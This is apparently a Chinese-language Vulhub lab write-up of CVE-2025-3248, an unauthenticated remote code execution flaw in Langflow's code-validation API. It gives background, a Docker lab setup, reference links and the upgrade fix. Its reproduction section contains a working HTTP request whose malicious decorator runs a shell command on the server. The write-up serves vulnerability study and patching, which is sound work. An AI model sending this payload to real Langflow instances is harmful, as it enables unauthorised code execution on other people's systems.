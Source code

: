 # Langflow code API 未授权远程代码执行漏洞 CVE-2025-3248

## 漏洞描述

Langflow 是一个流行的开源 AI 工作流可视化工具，允许用户通过 Web 界面拖拽式构建基于 Python 的智能体和数据处理流程。

在 1.3.0 版本之前，Langflow 存在一个严重的未授权远程代码执行漏洞（CVE-2025-3248）。/api/v1/validate/code 接口原本用来校验用户提交的 Python 代码是否合法，其内部通过 ast 解析代码后，使用 exec 执行所有函数定义。然而，Python 的装饰器和默认参数表达式也会在函数定义时被执行，攻击者可以通过精心构造的装饰器或默认参数，在未授权的情况下实现任意代码执行。

参考链接：

- https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
- https://github.com/langflow-ai/langflow/releases/tag/1.3.0
- [langflow-ai/langflow#6911](https://github.com/langflow-ai/langflow/pull/6911)

## 漏洞影响

```
Langflow < 1.3.0
```

## 环境搭建

Vulhub 执行如下命令启动 Langflow 1.2.0 漏洞环境：

```
docker compose up -d
```

服务启动后，Web 界面可通过 `http://your-ip:7860` 访问。你可以通过默认账号 `administrator:vulhub` 登录管理后台。

![](images/Langflow%20code%20API%20未授权远程代码执行漏洞%20CVE-2025-3248/image-20250421172157739.png)

## 漏洞复现

直接向 `/api/v1/validate/code` 接口发送包含恶意装饰器的 Python 函数定义，即可来实现远程命令执行：

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json
Content-Length: 125

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass","a7fb98s8pvr":"="}
```

![](images/Langflow%20code%20API%20未授权远程代码执行漏洞%20CVE-2025-3248/image-20250421172343669.png)

## 漏洞修复

升级至 Langflow 1.3.0 版本： https://github.com/langflow-ai/langflow/releases/tag/1.3.0
